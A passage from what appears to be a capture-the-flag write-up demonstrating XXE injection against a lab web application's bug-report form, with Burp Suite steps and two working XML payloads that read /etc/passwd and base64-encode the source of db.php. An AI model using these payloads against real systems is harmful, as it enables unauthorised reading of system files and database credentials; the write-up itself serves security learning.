 Then, we will proceed to encode this payload. First, we will encode it in Base64 and then, in URL encode:

![Desktop View](xxe4.png){: w="700" h="400" }
_Burpsuite Decoder_

Lastly, we will insert the created payload into the data parameter of the HTTP POST request:

![Desktop View](xxe5.png){: w="700" h="400" }
_Burpsuite HTTP Request_

Once we send the HTTP request, we can see what happens in the browser:

![Desktop View](xxe6.png){: w="700" h="400" }
_Browser_

We can see that our external entity named `example`, that contained the `'test'` string, is being represented in the `reward` field. So now we can say that the server is vulnerable to XXE Injection.

Now, we will try to read files from the target machine. To do this, we can use the wrapper named `file`. In this case, we will list the `/etc/passwd`{: .filepath} file, using the following payload and repeating the process explained above:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reward [ 
	<!ELEMENT reward ANY >
	<!ENTITY file SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>a</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>&file;</reward>
		</bugreport>
```

![Desktop View](xxe7.png){: w="700" h="400" }
_/etc/passwd displaying_

We can see that we are being displayed the `/etc/passwd`{: .filepath} of the target machine. This is always useful to identify the users of the machine, since we can see their home directories and if they have a shell assigned or not. In this case, we have the users `development` and `root`.

As we remember from the enumeration phase, we had a file called `db.php` that we could not read because it was being interpreted by the web server. Since we are able to read files from the victim machine, we will try to use a `PHP` wrapper that encodes the content of a file in Base64 and displays it. We will use it to read the contents of the `db.php` file. To do this, we will use the following payload:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reward [ 
	<!ELEMENT reward ANY >
	<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]>
		<bugreport>
		<title>a</title>
		<cwe>a</cwe>
		<cvss>a</cvss>
		<reward>&file;</reward>
		</bugreport>
```
